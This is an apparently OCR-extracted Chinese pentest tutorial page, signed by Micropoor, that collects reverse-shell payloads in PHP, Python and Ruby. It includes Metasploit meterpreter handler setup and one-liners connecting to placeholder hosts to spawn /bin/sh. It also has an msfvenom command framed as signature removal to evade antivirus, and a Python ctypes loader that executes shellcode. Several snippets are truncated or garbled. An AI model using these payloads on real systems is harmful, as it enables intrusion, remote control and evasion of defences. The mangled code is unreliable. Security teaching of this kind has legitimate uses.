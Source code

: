 # 基于第十课补充 Payload 1

在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 PHP，python，ruby。

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、php-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```php
<?
php error_reporting(0); $ip = 'x.x.x.x'; $port = 53; if (($f = 'stream_socket_client') && is_callable($f)) {
{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_
strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s;
$GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('s
>
```
![](media/c62949c5cacf6d6a5605200311aa5b9a.jpg)

```php
<?php
$sock=fsockopen("xx.xx.xx.xx",xx);exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
![](media/107730c867318d074cc21b9b490d8e8d.jpg)

### 2、python-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```python
import socket,struct,time
for x in range(10):
    try:
        s=socket.socket(2,socket.SOCK_STREAM)
        s.connect(('x.x.x.x',xx))
        break
    except:
        time.sleep(5) l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(l)
while len(d)<l:
    d+=s.recv(l-len(d))
exec(d,{'s':s})
```  
![](media/56fa0d76a0ef5b598d14f8a67de449b7.jpg)

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",xx));
i"]);
```  
![](media/268f5cbb31121e9d7f37909587296e7a.jpg)

```python
import socket import subprocess
s=socket.socket()
s.connect(("xx.xx.xx.xx",xx))
while 1:
  p = subprocess.Popen(s.recv(1024),
                      shell=True,
                      stdout=subprocess.PIPE,
                      stderr=subprocess.PIPE,
                      stdin=subprocess.send(p.stdout.read() + p.stderr.read()
                      )
```
![](media/710a81ff2c29a516aa878760e1fbd110.jpg)

删除特征：
```bash
root@John:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.8.8.8 LPORT=88 -f c | tr -d '"' | tr -d '\n'
```
![](media/34aeea621a28e0377b370eda4a63aaa2.jpg)

```python
from ctypes import *

reverse_shell = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72
micropoorshell = create_string_buffer(reverse_shell, len(reverse_shell))
shellcode = cast(micropoorshell, CFUNCTYPE(c_void_p))
shellcode()
```

### 2、ruby-payload
```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx", x);$stdin.reopen(c);$stdout.reopen(c);$stderr.reopen(c);$stdi
(IO.popen(l,"rb"){|fd| fd.each_line {|o| c.puts(o.strip) }}) rescue nil}
```
![](media/5253458a976fd4e0212059638751245b.jpg)

```ruby
require 'socket';f=TCPSocket.open("xx.xx.xx.xx",xx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)
```
![](media/b9032b829c6a977288c32948088801b6.jpg)

```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end  
```
![](media/cdb7a522f8eb1facc72265a923ef173e.jpg)

```ruby
c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print
io.read}end
```
![](media/9246e2313d4cbcb3c4dacced7c25e0c1.jpg)

<p align="right">--By  Micropoor </p>
